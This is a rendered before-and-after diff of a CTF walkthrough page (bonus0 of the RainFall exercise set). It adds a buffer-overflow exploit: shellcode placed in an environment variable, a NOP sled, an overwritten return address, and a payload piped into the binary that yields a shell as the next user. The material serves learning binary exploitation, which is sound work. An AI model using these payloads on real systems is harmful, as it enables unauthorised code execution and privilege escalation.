

Before and after one commit to hugorclt/rainfall, a Markdown page: bonus0/walkthrough.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/bonus0/walkthrough.md
+++ b/bonus0/walkthrough.md
@@ -78,8 +78,10 @@ input 2 = BBBBBBBBBBBBBBBBB	(17 CHARS)		SEGFAULT
 ```
 
 ```bash
-(python -c 'print "A" * 20'; python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"')  | ./bonus0
+(python -c 'print "A" * 20'; python -c 'print "ABCDEFGHIJKL"')  | ./bonus0
 ```
+
+ABCDEFGHIJKLMNOP
 
 ```
 segfault
@@ -200,0 +250,20 @@ export EXPLOIT=$(python -c 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\
+The offset in memory in gdb may be a bit different, that is why we put a lot of NOP instruction (`\x90`)
+Lets jump further to jump into the `\x90` : `\xe4\xf8\xff\xbf`
+
+Now in the program we can jump to our env variable with our payload
+
+## Payload
+
+FONCTIONNE
+```bash
+(python -c 'print ("A" * 20)'; python -c 'print ("A" * 9 + "\xe4\xf8\xff\xbf" + "A" * 7)'; cat)  | ./bonus0
+```
+
+```bash
+bonus0@RainFall:~$ (python -c 'print ("A" * 20)'; python -c 'print ("A" * 9 + "\xe4\xf8\xff\xbf" + "A" * 7)'; cat)  | ./bonus0
+ -
+ -
+AAAAAAAAAAAAAAAAAAAAAAAAAAAAA����AAAAAAA��� AAAAAAAAA����AAAAAAA���
+whoami
+bonus1
+```
````
Also changed, not shown: other parts of bonus0/walkthrough.md (+50 -3 lines).
